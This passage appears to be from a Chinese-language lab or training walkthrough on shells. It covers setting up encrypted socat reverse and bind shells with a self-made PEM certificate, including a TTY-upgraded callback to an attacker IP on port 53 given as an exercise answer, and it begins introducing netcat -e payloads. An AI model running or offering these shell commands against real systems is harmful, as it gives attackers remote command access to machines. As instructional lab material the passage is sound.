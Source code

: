 然后，我们需要将刚才两个创建的文件合并到一个.pem 文件中:

```shell
cat shell.key shell.crt > shell.pem
```

现在，当我们设置反向 shell 监听器时，可以使用以下命令:

```shell
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

这将使用我们生成的证书设置一个 OPENSSL 监听器，参数 verify=0 告诉连接不要费心尝试验证我们的证书是否已由公认的权威机构正确签名。 请注意，证书必须在正在监听的设备上使用（即：有监听器的地方就要有PEM文件）。

设置好监听器后，为了回连到该监听器，我们将使用:

```shell
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

**加密绑定shell**

建立加密的绑定 shell 也采用 和上面同样的技巧:

_目标机上_

```shell
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

_攻击机上_

```shell
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

再次注意：即使是针对 Windows 目标机建立绑定shell，证书也必须与监听器一起使用，因此需要为绑定 shell 复制 PEM 文件。

下图显示了来自 Linux 目标的 OPENSSL 反向 shell， 左边是攻击机终端界面，右边是已经建立的非交互式反向shell界面（右边的listener是自定义的别名）：

![image-20221007172505830](https://c/Users/Vimalano2ise/AppData/Roaming/Typora/typora-user-images/image-20221007172505830.png)

这种加密技巧也适用于上一个小节中介绍的特殊的、仅限 Linux 的 TTY（终端）反向shell —— 弄清楚它的语法将是本小节答题的关键。

**答题**

```shell
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0                #对socat tty技巧的加密处理--设置攻击机上的监听器
socat  OPENSSL:10.10.10.5:53,verify=0  EXEC:"bash -li",pty,stderr,sigint,setsid,sane   #对socat tty技巧的加密处理--让目标机执行回连命令
```

![image-20221007180959124](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007180959124.png)

## 常用的shell payload

之前有提到我们正在寻找一些方法来使用 netcat 作为绑定 shell 的监听器，所以我们将从它开始。

在 netcat 的某些版本中，包括Windows 版的nc.exe（Kali Linux也附带了，位于 /usr/share/windows-resources/binaries），还有 Kali 本身使用的版本，即netcat-traditional，都有一个 -e 选项允许你在shell的连接上执行进程。
